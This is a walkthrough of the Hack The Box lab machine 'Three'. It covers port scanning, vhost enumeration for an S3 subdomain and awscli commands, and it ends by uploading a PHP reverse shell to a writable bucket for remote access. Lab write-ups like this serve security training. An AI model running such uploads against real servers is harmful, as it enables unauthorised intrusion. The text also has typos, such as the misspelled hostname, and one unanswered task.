 ```yaml
---

title: Walkthrough - Three
published: true
---
```


Tags: Security, AWS, DNS, VHOST.
Description: Hackthebox boot2root machine.
Difficulty: Very-Easy

* * *

## Task 1 How many TCP ports are open?

- `sudo nmap -Pn -sS 10.129.77.119 -p- -vvv`

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

* * *

## Task 2 What is the domain of the email address provided in the "Contact" section of the website?

- `thetoppers.htb`

* * *

## Task 3 In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

- `/etc/hosts`

* * *

## Task 4 Which sub-domain is discovered during further enumeration?

Add thetopppers.htb to your /etc/hosts file. After adding we can scan for sub-somains.

* * *

## Task 5 Which service is running on the discovered sub-domain?

We have a hint that the sub-domain is two characters here. I dont know of any 2 char or digit wordlists so goign to make one with `crunch 1 2 0123456789abcdefghijklmnopqrstuvqxyz -o dnslist.txt`. DNS with gobuster doesnt work for this list but using gobuster vhost does.

- `gobuster vhost -u thetoppers.htb -t 100 -w dnslist.txt`
- `amazon s3`

* * *

## Task 6 Which command line utility can be used to interact with the service running on the discovered sub-domain?

- `awscli`

* * *

## Task 7 Which command is used to set up the AWS CLI installation?

- `aws configure`

* * *

## Task 8 What is the command used by the above utility to list all of the S3 buckets?

- `aws s3 ls`

* * *

## Task 9 This server is configured to run files written in what web scripting language?

- `php`

* * *

## Submit root flag 

With this information we can now connect to the sevrer. Configure with `aws configure` and use temp parameters.

We can use ls to list the s3 endpoints the server is hosting

- `aws --endpoint=http://s3.thetoppers.htb ls`

Now we can list objects the specific buckets contain.

- `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Seeing as this bucket is available for us to visit and powered by php we can then copy a reverse shell to the server and get access.

- `aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb/images/`

![0xskar](/assets/three01.png)

* * *